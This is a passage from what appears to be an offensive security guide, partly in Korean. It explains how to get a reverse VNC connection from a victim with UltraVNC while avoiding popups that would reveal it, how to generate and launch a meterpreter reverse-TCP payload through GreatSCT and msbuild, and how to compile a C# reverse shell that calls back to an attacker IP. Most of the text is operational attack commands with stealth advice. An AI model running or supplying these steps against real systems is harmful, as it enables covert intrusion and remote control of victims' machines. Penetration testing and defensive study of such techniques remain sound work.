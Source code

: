Then, move the binary _**winvnc.exe**_ and **newly** created file _**UltraVNC.ini**_ inside the **victim**

#### **Reverse connection**

The **attacker** should **execute inside** his **host** the binary `vncviewer.exe -listen 5900` so it will be **prepared** to catch a reverse **VNC connection**. Then, inside the **victim**: Start the winvnc daemon `winvnc.exe -run` and run `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**WARNING:** To maintain stealth you must not do a few things

- Don't start `winvnc` if it's already running or you'll trigger a [popup](https://i.imgur.com/1SROTTl.png). check if it's running with `tasklist | findstr winvnc`
- Don't start `winvnc` without `UltraVNC.ini` in the same directory or it will cause [the config window](https://i.imgur.com/rfMQWcf.png) to open
- Don't run `winvnc -h` for help or you'll trigger a [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
GreatSCT 내부:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
이제 **리스너를 시작**하려면 `msfconsole -r file.rc`를 사용하고, 다음으로 **xml payload**를 **실행**합니다:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**현재 Defender는 프로세스를 매우 빠르게 종료합니다.**

### 자체 reverse shell 컴파일

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### 첫 번째 C# Revershell

다음 명령으로 컴파일:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
다음과 함께 사용:
```
back.exe <ATTACKER_IP> <PORT>
```
